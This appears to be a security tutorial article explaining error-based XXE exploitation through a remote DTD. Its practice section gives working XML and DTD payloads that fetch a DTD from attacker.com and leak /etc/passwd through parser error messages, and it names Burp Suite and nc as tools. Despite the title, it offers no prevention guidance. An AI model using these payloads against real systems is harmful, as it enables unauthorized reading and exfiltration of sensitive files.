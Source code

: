 ```yaml
---
title: 'Error-Based XXE via Remote DTD: Exploit & Prevention'
description: Learn how error-based XXE attacks use remote DTDs for file exfiltration
  via XML parser errors.
keywords:
- XXE
- remote DTD
- XML parser
- file exfiltration
- error-based attack
- entity expansion
- cybersecurity
---
```


# Error Based - Using Remote DTD

## Context

This article explores error-based XML External Entity (XXE) exploitation using a remote Document Type Definition (DTD). This technique leverages XML parser error messages to exfiltrate sensitive files from a target system. To effectively utilize this method, readers should be familiar with XML structure, DTD usage and syntax, error handling in XML parsers, and basic XXE exploitation concepts.

## Theory

### Remote DTDs in XXE Attacks

A remote DTD is an external DTD file that is hosted on a server controlled by the attacker. By referencing this file within XML documents, attackers can extend entity definitions dynamically. This capability allows for more sophisticated payload delivery beyond the constraints of local file system access.

### Error-Based File Exfiltration via Entity Expansion

When XML parsers attempt to process malformed or faulty entity expansions, they may inadvertently expose sensitive file contents in their error messages. The attack sequence involves the following steps:
1. The attacker references a remote DTD within an XML document.
2. The remote DTD defines entities to read local files and concatenate their contents into an incorrect structure.
3. This incorrect structure triggers a parsing error that leaks the data through error messages.

### Entity Concatenation and File Leak Mechanism

Entity concatenation refers to the technique of combining multiple entities, including file contents, into a single value. This value is designed to cause a parsing error, which results in the exposure of the concatenated content. The data flow involves reading file content via a SYSTEM entity, injecting this data into the XML, and surfacing the contents in the error output.

### Threat Surface and Limitations

For this technique to succeed, several factors must align:
- The target application must trust external DTDs and allow outbound HTTP requests.
- The XML parser should produce verbose error messages that include entity values, thereby exposing sensitive information.

## Practice

### Error-Based XXE Using Remote DTD for File Exfiltration via Error Message

Here's how to conduct an error-based XXE attack using a remote DTD to leak files:

1. **Host a Malicious DTD:**
   Ensure you have a server ready, such as an HTTP service that hosts a malicious DTD file. This server should be accessible to the target application. For example, the file may be hosted at `http://attacker.com/malicious.dtd`.

2. **Craft the XML Payload:**

    ```xml
    <!DOCTYPE data [
        <!ENTITY % ext SYSTEM "http://attacker.com/malicious.dtd">
        %ext;
    ]>
    ```
   This XML payload references the remote DTD.

3. **Create the Malicious DTD (malicious.dtd):**

    ```xml
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
    %eval;
    ```
   This defines entities that access `/etc/passwd` and trigger an error using a nonexistent file path to include the sensitive data.

4. **Submit the XML Payload:**
   Send the crafted XML payload to the target application using a tool like Burp Suite or any HTTP client.

5. **Analyze the Error Message:**
   Examine the server's error response for signs of data leakage. The error message may contain portions of the `/etc/passwd` file exposed due to the flawed entity expansion.

## Tools

- **Burp Suite**
- **nc**
- **Python HTTP server** 

These tools facilitate crafting and delivering the XML payload as well as hosting the malicious remote DTD. The combination allows the attacker to efficiently carry out the exploitation process.